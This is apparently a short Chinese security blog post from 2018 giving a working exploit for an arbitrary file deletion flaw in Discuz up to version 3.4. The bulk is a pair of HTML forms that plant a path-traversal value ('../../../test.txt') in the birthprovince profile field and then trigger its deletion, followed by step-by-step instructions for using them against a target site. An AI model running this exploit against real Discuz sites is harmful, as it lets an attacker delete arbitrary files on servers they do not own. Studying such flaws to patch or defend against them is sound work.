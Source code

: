```yaml
---
title: "discuz 任意文件删除"
date: 2018-03-19T00:00:00+08:00
draft: false
tags: ['cms']
categories: ['web']
author: "X1r0z"

# weight: 1  # Top page

# You can also close(false) or open(true) something for this content.
# P.S. comment can only be closed
comment: false
toc: false
autoCollapseToc: false
---
```


漏洞影响范围 discuz <= 3.4

<!--more-->

**exp**

```
<form action="http://www.xxx.com/home.php?mod=spacecp&ac=profile&op=base" method="POST" enctype="multipart/form-data">
<input type="text"name="birthprovince" id="text" value="../../../test.txt" />
<input type="text"name="formhash" value="de746a38"/></p>
<input type="text"name="profilesubmit" value="1"/></p>
<input type="submit"value="Submit" />
</form>

<br />

<form action="http://www.xxx.com/home.php?mod=spacecp&ac=profile&op=base&deletefile[birthprovince]=aaaaaa" method="POST" enctype="multipart/form-data">
<input type="file"name="birthprovince" id="file" />
<input type="text"name="formhash" value="de746a38"/></p>
<input type="text"name="profilesubmit" value="1"/></p>
<input type="submit"value="Submit" />
</form>
```

首先在前台注册账号

个人中心 修改个人资料

![](http://exp10it-1252109039.cossh.myqcloud.com/2018/03/19/1521461557.jpg)

右键查看 formhash

![](src="http://exp10it-1252109039.cossh.myqcloud.com/2018/03/19/1521461560.jpg")

修改 exp 中的网址

填上要删除的文件 formhash 选择文件

两个 submit 分别提交

![](http://exp10it-1252109039.cossh.myqcloud.com/2018/03/19/1521461562.jpg)